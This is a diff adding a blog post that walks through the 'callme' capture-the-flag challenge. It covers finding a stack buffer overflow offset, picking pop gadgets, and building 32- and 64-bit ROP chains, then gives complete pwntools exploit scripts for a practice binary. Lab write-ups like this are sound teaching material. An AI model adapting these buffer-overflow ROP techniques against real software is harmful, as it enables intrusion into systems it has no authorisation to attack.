

callme done

diff --git a/_posts/2022-12-28-callme.md b/_posts/2022-12-28-callme.md
@@ -21,3 +21,320 @@ categories: ROP GDB pwndbg pwntools
 &nbsp;
 
 ### The 32 bit solve
+The aim of this challenge is to call 3 functions provided through library imports named callme_one, callme_two and callme_three along with 3 specific parameters for each (0xdeadbeef, 0xcafebabe, 0xd00df00d).
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/1checksec.png" alt="checksec" width="750"/>
+
+The first step is to run **checksec** in order to find protections. Like usual, NX in enabled and partial RELRO exists so a ROP chain is required.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/2rabin.png" alt="rabin" width="750"/>
+
+Using the **rabin2** command we can see the strings with the -z flag as well as the imported functions with the -i flag. Here we can see any interesting information in strings we can use as well as addresses of functions we can use in our exploits.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/3ghidra.png" alt="ghidra" width="750"/>
+<img src="../../../assets/img/callme_img/5pwnme.png" alt="pwnme" width="750"/>
+<img src="../../../assets/img/callme_img/6useful.png" alt="useful" width="750"/>
+
+Next we can look at Ghidra and understand better how the functions available may work. A buffer overflow can be determined through the pwnme function input fields. We can also see this new function called usefulFunction which includes calls to the functions we need to call within the ROP chain. This is useful as we can use the addresses of these functions for the ROP.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/7cyclic.png" alt="cyclic" width="750"/>
+
+Through running the **cyclic 100** command within pwndbg and then running the binary with our cyclic value, we can use this to find the offset by taking the value from the EIP register.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/8offset.png" alt="offset" width="750"/>
+
+Using **cyclic -l laaa** we can find the offset is 44 bytes.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/9addrcallme.png" alt="addrcallme" width="750"/>
+
+Again by going into pwndbg we can note down the addresses of the callme functions by disassembling usefulFunction.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/10order.png" alt="order" width="750"/>
+
+Next we need to determine the order for our ROP chain. As parameters will be called off the stack as we are using 32 bit architecture, we can simply add the offset followed by the callme function call, parameters and repeating this. However, as we repeatedly call the different callme functions, a new stack frame is created each time and the parameters we write to the stack will be overwritten. Therefore, we need a ROP gadget.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/11ropgadget.png" alt="gadget" width="750"/>
+
+We need to find a rop gadget which pops values off the stack which would have been written by the new stack frame. This is done by using the **ROPgadget** command. We can see the gadget we need is **pop esi; pop edi; pop ebp; ret** as it will pop 3 values off the stack which matches the amount of parameters we need to pass to each function.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/12orderupdated.png" alt="orderupdated" width="750"/>
+
+The order can now be updated placing the gadget before the parameters get put on the stack.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/13payloadcallmeone.png" alt="callmeone" width="750"/>
+
+To check we have done this correctly, we can start by trying to call the first function call with our parameters with python2 and using little endian format. As we can see, the program outputs callme_one() called correctly so we know we are on the right path.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/14completepayload.png" alt="completepayload" width="750"/>
+
+Finishing the payload, we can see the flag has been printed. The python script for this will be displayed at the end of the post.
+
+&nbsp;
+
+### The 64 bit solve
+The 64 bit architecture handles arguments for system calls differently to 32 bit so our exploit will look slightly different. Parameters used this time will be 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d.
+
+&nbsp;
+
+64bit:
+<img src="../../../assets/img/split_img/1464bitarguments.png" alt="1364bitarguments" width="750"/>
+
+ As seen before in previous challenges, the 64 bit architecture requires the arguments to be passed in the registers seen above. This means that we need to use a ROP gadget which is **pop rdi; pop rsi; pop rdx; ret**. This will pop the 3 arguments off the stack and into the correct registers for arg0, arg1 and arg2.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/15cyclic.png" alt="cyclic" width="750"/>
+
+Again we can use the cyclic command to find the offset. We take the first 8 bytes of the RSP value overwritten.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/16offset.png" alt="offset" width="750"/>
+
+Using the **cyclic -l faaaaaaa** command we can find the offset is 40 bytes.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/17gadgets.png" alt="gadgets" width="750"/>
+
+We need to find the new 64 bit address of the callme functions. We can do this by dissasembling the usefulFunction again in pwndbg. Provided is also a new function called usefulGadgets which includes the ROP gadget which will pop the 3 arguments off the stack and into the correct registers **pop rdi ; pop rsi ; pop rdx ; ret**. We can grab the address by disassembling this function or using the command **p usefulGadgets**.
+
+&nbsp;
+
+<img src="../../../assets/img/callme_img/18order.png" alt="order" width="750"/>
+
+The order of the ROP chain will have to be slightly different to the 32 bit architecture version. As the callme functions will be calling parameters off the stack, these can be called last after we have placed the parameters into the correct registers. First we need to call our gadget which will pop the 3 following parameters off the stack and into the correct registers. Then finally, we call the callme function and we should get the flag.
+
+&nbsp;
+
+Instead of using python2 here manually, we will use the template from previous challenges and create a working python3 script using pwntools to solve the challenge. This is provided below the 32 bit script.
+
+&nbsp;
+
+### The 32 bit python script
+
+```python
+from pwn import *
+
+##### SETUP & RUN #####
+
+#Define the executable
+exe = './callme32'
+
+# This will automatically get context arch, bits, os etc
+elf = context.binary = ELF(exe, checksec=False)
+
+# verbose logging so we can see what is being sent
+context.log_level = 'info'
+
+#delete corefiles after crash occurs
+context.delete_corefiles = True
+
+# run the elf
+io = process()
+
+##### FIND USEFUL ADDRESSES #####
+
+# Locate the functions/strings we need - either do this manually or using pwntools
+
+# Address needed to put parameters in registers
+pop = 0x080487f9
+callmeone = 0x80484f0
+callmetwo = 0x8048550
+callmethree = 0x80484e0
+param1 = 0xdeadbeef
+param2 = 0xcafebabe
+param3 = 0xd00df00d
+
+
+##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
+
+# We will send a 'cyclic' pattern which overwrites the return address on the stack
+payload = cyclic(100)
+
+# Send cyclic pattern to crash it
+io.sendlineafter('> ', payload)
+
+# Wait for the process to crash
+io.wait()
+
+# Open up the corefile created after crash
+core = io.corefile
+
+# Print out the address of EIP at the time of crashing
+eip_value = core.eip
+eip_offset = cyclic_find(eip_value)
+info('located EIP offset at {a}'.format(a=eip_offset))
+
+##### CRAFTING PAYLOAD #####
+
+# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
+# fit works below by making it aaa + addr1 + addr2 + addr3 and converts hex to ascii where appropriate
+payload = fit({eip_offset: [callmeone, pop, param1, param2, param3, callmetwo, pop, param1, param2, param3, callmethree, pop, param1, param2, param3]})
+
+# alternative way - p32 converts 0x90 to \x90
+# payload = b""
+# payload += b'A' * eip_offset
+# payload += p32(callmeone)
+# payload += p32(pop)
+# payload += p32(param1)
+# payload += p32(param2)
+# payload += p32(param3)
+# payload += p32(callmetwo)
+# payload += p32(pop)
+# payload += p32(param1)
+# payload += p32(param2)
+# payload += p32(param3)
+# payload += p32(callmethree)
+# payload += p32(pop)
+# payload += p32(param1)
+# payload += p32(param2)
+# payload += p32(param3)
+# print(payload)
+
+
+##### SEND PAYLOAD AND GET FLAG #####
+
+io = process()
+io.sendlineafter('>', payload)
+io.recvuntil('Thank you!\n')
+
+#Get our flag!
+flag = io.recv()
+success(flag)
+
+##### END #####
+```
+
+&nbsp;
+
+### The 64 bit python script
+
+```python
+from pwn import *
+
+##### SETUP & RUN #####
+
+#Define the executable
+exe = './callme'
+
+# This will automatically get context arch, bits, os etc
+elf = context.binary = ELF(exe, checksec=False)
+# verbose logging so we can see what is being sent
+context.log_level = 'info'
+
+#delete corefiles after crash occurs
+context.delete_corefiles = True
+
+# run the elf
+io = process()
+
+##### FIND USEFUL ADDRESSES #####
+
+# Locate the functions/strings we need - either do this manually or using pwntools
+
+# rop = ROP(elf)
+# register_pop_gadget = rop.find_gadget(["pop rdi", "pop rsi", "pop rdx", "ret"])[0]
+pop_gadget = 0x000000000040093c
+param1 = 0xdeadbeefdeadbeef
+param2 = 0xcafebabecafebabe
+param3 = 0xd00df00dd00df00d
+callmeone = 0x0000000000400720
+callmetwo = 0x0000000000400740
+callmethree = 0x00000000004006f0
+
+
+# Print out the target address
+# info("%#x pop rdi; ret;", pop_gadget)
+# info("%#x param1", param1)
+# info("%#x param2", param2)
+# info("%#x param3", param3)
+# info("%#x callmeone", callmeone)
+# info("%#x callmetwo", callmetwo)
+# info("%#x callmethree", callmethree)
+
+
+##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
+
+# We will send a 'cyclic' pattern which overwrites the return address on the stack
+payload = cyclic(100)
+
+# Send cyclic pattern to crash it
+io.sendlineafter('> ', payload)
+
+# Wait for the process to crash
+io.wait()
+
+# Open up the corefile created after crash
+core = io.corefile
+
+stack = core.rsp
+info("%#x stack", stack)
+
+# Read four bytes from RSP, which will be some of our cyclic data.
+# With this snippet of the pattern, we know the exact offset from
+# the beginning of our controlled data to the return address.
+pattern = core.read(stack, 4)
+offset = cyclic_find(pattern)
+info("%r pattern (offset: %r)", pattern, offset)
+
+##### CRAFTING PAYLOAD #####
+
+# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
+# Note that we have to call pop_rdi gadget here
+
+payload = b""
+payload += b'A' * offset
+payload += p64(pop_gadget)
+payload += p64(param1)
+payload += p64(param2)
+payload += p64(param3)
+payload += p64(callmeone)
+payload += p64(pop_gadget)
+payload += p64(param1)
+payload += p64(param2)
+payload += p64(param3)
+payload += p64(callmetwo)
+payload += p64(pop_gadget)
+payload += p64(param1)
+payload += p64(param2)
+payload += p64(param3)
+payload += p64(callmethree)
+
+##### SEND PAYLOAD AND GET FLAG #####
+
+
+
+io = process()
+io.sendlineafter('> ', payload)
+io.recvuntil('Thank you!\n')
+#Get our flag!
+flag = io.recv()
+success(flag)
+
+##### END #####
+```
+
+
